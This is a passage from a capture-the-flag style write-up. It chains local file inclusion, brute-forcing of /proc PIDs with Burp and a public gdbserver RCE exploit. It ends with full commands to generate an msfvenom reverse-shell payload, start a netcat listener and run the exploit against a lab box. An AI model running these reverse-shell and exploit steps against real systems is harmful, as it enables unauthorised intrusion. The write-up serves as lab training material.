 We are able to see ``/etc/passwd ``file but there is nothing useful. So then I tried to search RCE(REMOTE CODE  EXECUTION) via LFI and after lots of searches and research, I finally came across a [**blog**](https://zsahi.wordpress.com/2018/09/10/file-inclusion/) that says we can brute force the `PID` in the ``/proc/ directory``. So, ``/proc/[PID]/cmdline`` in Linux is basically representing a currently running process. Learn more about /proc/ directory [**here**](https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html)**.**

start the brute process using burp to brute force the PID so i created a payload with numbers from 1 to 1000 and started the payload. **_pid_** is the process ID of a currently running process

![[burp.png]]

So as we can see `gdbserver` is running in port 1337.so basically **gdbserver** is a program that allows you to run GDB on a different machine than the one which is running the program being debugged.so we are going to communicate with the "host" GDB via TCP.The "port:1337" argument means that we are expecting to see a TCP connection from "host" to local TCP port 1337.

**--once**
           By default, **gdbserver** keeps the listening TCP port open, so
           that additional connections are possible.  However, if you
           start "gdbserver" with the **--once** option, it will stop
           listening for any further connection attempts after
           connecting to the first GDB session.

so i decide to look for `gbserver exploit` and found a python  [**RCE**](https://www.exploit-db.com/exploits/50539)

#### Output

![[gbserver.png]]

## Enumeration and Injecting

so i decide to open a new file ``exploit.py`` and copied pasted the code and runned it to see the outcame

#### Output

![[expli.png]]

as you can see we need to follow the folowing steps: replace your LHOST with you tun0 ip address  and LHOST of your desired choice :

#### code-steps  
```bash
1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=9001 PrependFork=true -o rev.bin

2.make rev.bin Executable
$ chmod +x rev.bin

3. Listen with Netcat:
$ nc -nlvp 9001

4. Run the exploit use the box ip and the pid port 1337:
$ python3 exploit.py 10.10.11.125:1337 rev.bin
```
